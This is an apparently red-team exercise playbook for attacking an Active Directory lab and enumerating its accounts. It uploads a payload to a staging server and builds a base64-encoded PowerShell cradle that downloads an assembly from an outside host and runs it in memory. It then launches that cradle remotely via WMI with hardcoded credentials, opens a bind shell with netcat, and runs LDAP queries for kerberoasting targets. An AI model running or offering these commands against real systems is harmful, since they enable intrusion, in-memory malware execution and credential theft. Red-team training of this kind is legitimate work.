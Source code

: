 # Advanced Enumeration

## **Playbook ID: 4.05** - T1087.002 - Internal Enumeration using [ADSI] - **MSEL Event ID: AT1-5**

Target: it-user10

This will run through the merlin socks5 proxy on the **HTTPS server, Redirector 2, Lane 2** from your **KALI OPERATOR BOX**

1. Download the "something_cool.exe" from the file share: 172.16.2.2:8080/rush_hour/something_cool.exe to your kalib operator box.

2. Upload the something_cool.exe payload to the captain america webstage.

```sh
cd ~/Downloads
curl -k -X POST https://192.168.4.155:443/upload -F "file=@./something_cool.exe" -H "Content-Type: multipart/form-data" -H "Key: ironcatstomorrowneverdies" -v
```

> Use the output to craft the payload in the subsequent steps. Remember just use the random string, not the "/payloads".

1. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```sh
echo 'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'|iconv -f ASCII -t UTF-16LE -|base64 -w0 > cradle.txt

echo $(cat cradle.txt)
```

2. Leverage the command to invoke the custom PowerShell runspace within the bind-shell on port 65535 of the it-users-win10 computer (the default port). Replace the `<paste here>` string in the command below with the base64 cradle from the previous step, then execute the command on it-users-win10 using WMI. This will de-chain the previous attack using the Merlin agent from the current enumeration process. Once the command has executed, use proxychains to connect to the shell on port 65535.   

**Change the DOMAIN in the commmand with ## to your Enclave**

```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'

> proxychains -q nc -v 172.23.3.110 65535
```

_If this doesn't work, within Merlin, run:_

```sh
upload something_cool.exe
run something_cool.exe
```

**IN THE INTERACTIVE SHELL IF YOU HAVE PROBLEMS USE THE COMMAND `reset` AND START AGAIN**


**ENSURE YOU CHANGE THE ## to YOUR ENCLAVE NUMBER**

3. Now that we have fully interactive access in the PowerShell runspace, we will enumerate the IT domain for potential targets. To ensure the commands are executed under a Kerberos authenticated context, use the `[runas.program]` class pre-loaded into the bindshell. The convention for authenticated commands is `[runas.program]::netonly(("<domain>","<username>","<password>","<command>"))`. All other commands will be executed from the local context of the process. 
```

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"));

[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2","([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json"));
```
4. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams'));
```


<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```
</details>

